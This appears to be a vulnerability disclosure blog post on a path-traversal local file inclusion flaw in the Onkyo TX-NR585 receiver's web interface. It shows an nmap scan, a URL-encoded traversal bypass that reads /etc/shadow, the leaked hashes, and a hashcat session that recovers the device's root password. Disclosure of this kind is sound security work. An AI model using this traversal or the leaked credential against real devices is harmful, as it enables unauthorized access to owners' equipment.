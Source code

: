 ```yaml
---
layout: post
title: LFI Within Onkyo TX-NR585 Web Interface
gh-badge:
  - star
  - fork
  - follow
tags:
 - Local File Inclusion 
 - exploit
 - onkyo
 - web
comments: true
published: true
date: '2020-04-27'
---
```


Vendor: https://www.onkyousa.com/

Known Affected Versions:
TX-NR585 Firmware Version 1000-0000-000-0008-0000

### Description:
Within the Onkyo TX-NR585 Radio Reciever there is a local file inclusion vulnerability that can be exploitable on the built in webserver(s) on the device. A weakly implemented filter can be bypassed with basic URL encoding techniques (%2e%2e%2f) to expose sensitive files on the system


## Steps to reproduce:

* Locate the Onkyo Reciever on your network 

* Access any of the web servers running on the device, several can be found by running a simple nmap scan:

```
root@pvris:~#nmap -sT -vvv 192.168.0.80
Reason: 993 no-responses
PORT      STATE SERVICE        REASON
80/tcp    open  http           syn-ack
5000/tcp  open  upnp           syn-ack
8008/tcp  open  http           syn-ack
8009/tcp  open  ajp13          syn-ack
8080/tcp  open  http-proxy     syn-ack
8888/tcp  open  sun-answerbook syn-ack
10001/tcp open  scp-config     syn-ack

```

Any port accessible above is running a webserver that is vulnerable to Local File Inclusion.

* Capture a HTTP Request to the reciever in Burpsuite and send it into Repeater with Control + R

![3d04010747ebc5c102416244e582fc56.png](:/92f35b05e91f48f5831be072e57b13fb)

* Modify the URL to %2e%2e%2f to traverse back a directory, creating several sets of these, we are able to hit the root of the file system, from there we can then attempt to disclose a sensitive file (such as /etc/shadow as seen in the screenshot below)

![f4f5cded13d2186856e436a0db551891.png](:/047c71ec6e2443dfa39dd6418957ac68)

* Sucess, we have disclosed a sensitive file on the system. LFI has been achieved.

* For fun, now we have the password hashes out of /etc/shadow, lets try and crack it!

```
root:$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:16610:0:99999:7:::
daemon:*:16610:0:99999:7:::
bin:*:16610:0:99999:7:::
sys:*:16610:0:99999:7:::
sync:*:16610:0:99999:7:::
games:*:16610:0:99999:7:::
man:*:16610:0:99999:7:::
lp:*:16610:0:99999:7:::
mail:*:16610:0:99999:7:::
news:*:16610:0:99999:7:::
uucp:*:16610:0:99999:7:::
proxy:*:16610:0:99999:7:::
www-data:*:16610:0:99999:7:::
backup:*:16610:0:99999:7:::
list:*:16610:0:99999:7:::
irc:*:16610:0:99999:7:::
gnats:*:16610:0:99999:7:::
nobody:*:16610:0:99999:7:::
chrome:!:16610:0:99999:7:::
messagebus:!:16610:0:99999:7:::
ntp:!:16610:0:99999:7:::
avahi-autoipd:!:16610:0:99999:7:::
```

Loading the root password hash into hashcat, we are able to crack it relatively quickly, in about a minutes time:

```
.\hashcat.exe -m 1800 -a 0 ..\onkyo.hash E:\Wordlists\rockyou.txt
hashcat (v5.1.0-1770-g2c94c003) starting...

$6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8GFeE7wgMPPO/TubEbYc59EErqg4MDHyVsmTGxVi279wmJZySHjGT3H0:morimori

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$cUc04nYlQ1/HUOZz$3kbNjY7RyuznIr1VotKXo.t73ws5sF8...jGT3H0
Time.Started.....: Mon Apr 27 00:58:27 2020 (33 secs)
Time.Estimated...: Mon Apr 27 00:59:00 2020 (0 secs)
Guess.Base.......: File (E:\Wordlists\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    18675 H/s (10.38ms) @ Accel:1 Loops:64 Thr:1024 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 614400/14344384 (4.28%)
Rejected.........: 0/614400 (0.00%)
Restore.Point....: 599040/14344384 (4.18%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: poptart15 -> mizzmoss
Hardware.Mon.#1..: Temp: 50c Fan:  0% Util: 99% Core:1987MHz Mem:3802MHz Bus:8

Started: Mon Apr 27 00:58:00 2020
Stopped: Mon Apr 27 00:59:01 2020
```

Interesting, the cracked password is morimori, which is a Japanese word: もりもり. This actually makes a bit of sense seeing that Onkyo is a Japanese company.
